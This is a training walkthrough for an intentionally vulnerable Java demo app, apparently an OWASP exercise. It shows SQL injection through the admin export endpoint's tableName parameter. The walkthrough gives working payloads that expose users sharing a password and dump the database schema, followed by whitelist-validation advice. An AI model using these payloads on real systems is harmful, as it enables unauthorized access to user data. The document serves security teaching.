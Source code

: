 Java: Injection (admin dump)
============================

Scenario summary
----------------

We are going to perform an SQL injection to access data that should not be
available.
For example, we are going to list users that have the same password as a chosen
user or simply dump data from some table. By default the password field is not
accessible.

Scenario description
--------------------

Log in as *admin*.

Navigate to <http://host/owasphotel/admin> and open *FireBug*. Enter the table
name, such as `USER` and columns will show. You will see the action in the form
and the names of the input parameters.

![Admin page in *FireBug*](attack01-injection-adminpage.png)

To test whether the injection works just enter a quote after the table name and
submit: an error should appear. Be sure to have at least one column selected so
that the request will not fail because of missing parameters.
The request is:
<http://localhost:8080/owasphotel/admin/export?tableName=USER%27&col=ID&col=NAME>

	org.h2.jdbc.JdbcSQLException: Syntax error in SQL statement
	"select ID,NAME from USER[*]'"; SQL statement:
	select ID,NAME from USER' [42000-170]

We can inject what we want into the URL parameters and execute it on the
database. The following request will dump the users' IDs and names of users that
have the same password as the user identified by `2`.
We will inject the following code into the `tableName`:

	USER where id<>2 and password=(select password from USER where id=2)

After *url-encoding* that value, the request becomes:
<http://localhost:8080/owasphotel/admin/export?tableName=USER%20where%20id%3C%3E2%20and%20password%3D%28select%20password%20from%20USER%20where%20id%3D2%29&col=ID&col=NAME>

---

Another example of attack, is to list tables and their columns:
<http://localhost:8080/owasphotel/admin/export?tableName=INFORMATION_SCHEMA.COLUMNS&col=TABLE_NAME&col=COLUMN_NAME>

Vulnerable code
---------------

None. See class `Dumper.dump(..)`.

Preventing the attack
---------------------

Avoid simple concatenation of the parts of the query. Usually, values should be
injected using placeholders. However, in this particular case, this cannot be
done as we are injecting column and table names.
The solution is to use a "white list" input validation using for example a
regular expression such as `[a-zA-Z][a-zA-Z0-9_]*`. A "black list" can always be
incomplete and allow injection for some edge cases.
